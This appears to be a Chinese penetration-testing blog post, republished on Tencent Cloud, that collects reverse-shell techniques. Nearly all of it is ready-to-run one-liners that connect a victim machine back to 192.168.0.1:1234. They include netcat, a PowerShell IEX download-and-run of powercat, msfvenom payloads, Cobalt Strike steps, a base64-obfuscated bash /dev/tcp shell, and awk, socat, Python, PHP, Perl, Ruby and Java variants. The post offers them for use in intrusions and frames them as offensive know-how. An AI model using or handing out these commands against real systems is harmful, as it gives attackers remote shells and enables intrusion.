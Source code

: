 # 涨姿势！那些反弹shell的技巧总结

发布于 2021-11-25 15:14:22

1.4K0

举报

文章被收录于专栏：网络安全自修室

在渗透过程中，往往因为端口限制而无法直连目标机器，此时需要通过反弹shell来获取一个可交互式shell。

反弹shell是打开内网通道的第一步，也是权限提升过程中至关重要的一步。 

（本文所有姿势整理自实验笔记与网络）

##### 一、Windows反弹shell

###### 0x1 nc反弹

代码语言：javascript

复制

```javascript
nc 192.168.0.1 1234 -e c:\windows\system32\cmd.exe
```

###### 0x2 powershell反弹

(现在较为常用，常用来上线cs) 这里通过利用powercat进行反弹shell，powercat是netcat的powershell版本，功能免杀性都要比netcat好用的多。 1、通过远程下载并直接利用反弹木马或者工具

代码语言：javascript

复制

```javascript
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.0.1 -p 1234 -e cmd
```

2、下载到目标机器后，本地执行：

代码语言：javascript

复制

```javascript
Import-Module ./powercat.ps1
powercat -c 192.168.0.1 -p 1234 -e cmd
```

###### 0x3 通过MSF反弹shell

使用msfvenom生成相关关于powershell反弹的Payload

代码语言：javascript

复制

```javascript
msfvenom -l payloads | grep 'cmd/windows/reverse'
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.0.1 LPORT=1234
```

###### 0x4 通过Cobalt strike反弹shell

1、配置监听器：点击Cobalt Strike——>Listeners——>在下方Tab菜单Listeners，点击add 

2、生成payload：点击Attacks——>Packages——>Windows Executable，保存文件位置 

3、目标机执行远程下载执行powershell payload进行反弹

##### 二、Linux 反弹shell

###### 0x1 bash反弹

代码语言：javascript

复制

```javascript
bash -i >& /dev/tcp/192.168.0.1/1234 0>&1
base64版：bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}'
```

###### 0x2 nc反弹

代码语言：javascript

复制

```javascript
nc -e /bin/bash 192.168.0.1 1234
```

###### 0x3 awk反弹

(输入enter则断开)

代码语言：javascript

复制

```javascript
awk 'BEGIN{s="/inet/tcp/0/192.168.0.1/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

###### 0x4 telnet反弹

(需要在攻击主机上分别监听1234和4321端口，执行反弹shell命令后，在1234终端输入命令，4321查看命令执行后的结果)

代码语言：javascript

复制

```javascript
telnet 192.168.0.1 1234 | /bin/bash | telnet 192.168.0.1 4321
```

###### 0x5 socat反弹

代码语言：javascript

复制

```javascript
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.1:1234
```

###### 0x6 Python反弹

代码语言：javascript

复制

```javascript
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.0.1',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

###### 0x7 PHP反弹

代码语言：javascript

复制

```javascript
php -r '$sock=fsockopen("192.168.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

###### 0x8 Perl反弹

代码语言：javascript

复制

```javascript
perl -e 'use Socket;$i="192.168.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

###### 0x9 Ruby反弹

代码语言：javascript

复制

```javascript
ruby -rsocket -e'f=TCPSocket.open("192.168.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

###### 0x10 JAVA反弹

代码语言：javascript

复制

```javascript
public class Shell {<!-- -->
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception {<!-- -->
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {<!-- -->"/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.1/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

保存为Shell.java文件，编译执行反弹shell。

代码语言：javascript

复制

```javascript
javac Shell.java
java Shell
```

本文参与 [腾讯云自媒体同步曝光计划](https://cloud.tencent.com/developer/support-plan)，分享自微信公众号。

原始发表：2021-11-17，如有侵权请联系 [cloudcommunity@tencent.com](mailto:cloudcommunity@tencent.com) 删除